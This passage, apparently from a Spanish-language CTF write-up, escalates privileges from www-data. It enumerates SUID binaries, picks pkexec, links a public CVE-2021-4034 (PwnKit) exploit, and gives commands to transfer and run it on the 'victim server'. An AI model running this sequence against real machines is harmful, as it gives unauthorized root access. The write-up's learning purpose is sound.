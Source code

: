 Ya seremos el usuario `www-data`...

Si hacemos lo siguiente...

```
find / -type f -perm -4000 -ls 2>/dev/null
   285086     80 -rwsr-xr-x   1 root     root        80056 Apr  2  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   285640    100 -rwsr-sr-x   1 root     root       101208 Apr 16  2018 /usr/lib/snapd/snap-confine
   262612     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   287000    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   538740     16 -rwsr-xr-x   1 root     root        14328 Mar 27  2018 /usr/lib/policykit-1/polkit-agent-helper-1
   262602     44 -rwsr-xr--   1 root     messagebus    42992 Nov 16  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   283747     52 -rwsr-sr-x   1 daemon   daemon        51464 Feb 20  2018 /usr/bin/at
   262276     76 -rwsr-xr-x   1 root     root          76496 Jan 25  2018 /usr/bin/chfn
   285442     40 -rwsr-xr-x   1 root     root          37136 Jan 25  2018 /usr/bin/newuidmap
   262491    148 -rwsr-xr-x   1 root     root         149080 Jan 18  2018 /usr/bin/sudo
   285441     40 -rwsr-xr-x   1 root     root          37136 Jan 25  2018 /usr/bin/newgidmap
   262411     60 -rwsr-xr-x   1 root     root          59640 Jan 25  2018 /usr/bin/passwd
   262341     76 -rwsr-xr-x   1 root     root          75824 Jan 25  2018 /usr/bin/gpasswd
   283134     20 -rwsr-xr-x   1 root     root          18448 Mar 10  2017 /usr/bin/traceroute6.iputils
   262400     40 -rwsr-xr-x   1 root     root          40344 Jan 25  2018 /usr/bin/newgrp
   285527     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2018 /usr/bin/pkexec
   262278     44 -rwsr-xr-x   1 root     root          44528 Jan 25  2018 /usr/bin/chsh
   536814     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   536260    144 -rwsr-xr-x   1 root     root         146128 Dec  1  2017 /bin/ntfs-3g
   524358     64 -rwsr-xr-x   1 root     root          64424 Mar 10  2017 /bin/ping
   524376     44 -rwsr-xr-x   1 root     root          44664 Jan 25  2018 /bin/su
   524393     28 -rwsr-xr-x   1 root     root          26696 Mar 16  2018 /bin/umount
   524349     44 -rwsr-xr-x   1 root     root          43088 Mar 16  2018 /bin/mount
```

Veremos esta linea de aqui...

```
285527     24 -rwsr-xr-x   1 root     root          22520 Mar 27  2018 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` con permisos de `SUID`, por lo que haremos lo siguiente...

URL = https://github.com/Almorabea/pkexec-exploit

Esto nos lo llevaremos al servidor victima, ya sea copiando el contenido de `python` o transferirlo con algun comando como `curl` o `wget`, una vez teniendolo dentro...

```shell
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```
